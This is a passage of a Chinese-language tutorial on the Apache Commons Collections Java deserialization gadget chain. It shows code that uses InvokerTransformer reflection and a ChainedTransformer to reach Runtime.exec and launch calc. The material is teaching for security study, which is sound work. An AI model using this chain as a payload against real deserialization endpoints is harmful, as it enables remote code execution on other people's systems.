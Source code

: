 ```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
Class clazz = Runtime.class;
Method getRuntime = clazz.getMethod("getRuntime");
Runtime runtime = (Runtime) getRuntime.invoke(null);
invokerTransformer.transform(runtime);
```



### 解决Runtime不可序列化的问题

想要序列化一个类，需要这个类实现Serializable接口，Runtime没有实现该接口，因此无法进行序列化，最终导致无法进行命令执行。因此，我们需要对Runtime的写法进行改造：

```java
Class<Runtime> clazz = Runtime.class;
Method runtimeMethod = (Method) new InvokerTransformer(
    "getMethod",
    new Class[]{String.class,Class[].class},
    new Object[]{"getRuntime",null})
    .transform(clazz);
Runtime runtime =(Runtime) new InvokerTransformer(
    "invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null,null})
    .transform(runtimeMethod);
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(runtime);
```

传入的Class类对象是可以被反序列化的，因此传入Runtime的类对象，利用反射调用类对象的getMethod方法，获取到该方法之后，在利用反射调用getRuntime方法对象的invoke方法，获取到Runtime对象。最后在利用InvokerTransformer调用exec方法，调用系统命令。这种方法十分巧妙的解决了Runtime对象无法序列化的问题，这种写法在后续的反序列化链中也十分常见。



### 包装chainedTransformer

我们上面的写法创建了三个InvokerTransformer对象，需要每个都执行他的transform方法，这样过于麻烦。Transformer接口还有一个实现类ChainedTransformer，该类可以将Transformer对象数组包装成一个chainedTransformer，调用transform方法时，会链式调用每个Transformer对象的transform方法。如下图所示：

![image-20220313203737068](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220313203737068.png)

因此，对我们编写的代码进行包装，然后调用transform方法，执行的结果和上面一致：

```java
Transformer[] transformers = new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

chainedTransformer.transform(Runtime.class);
```
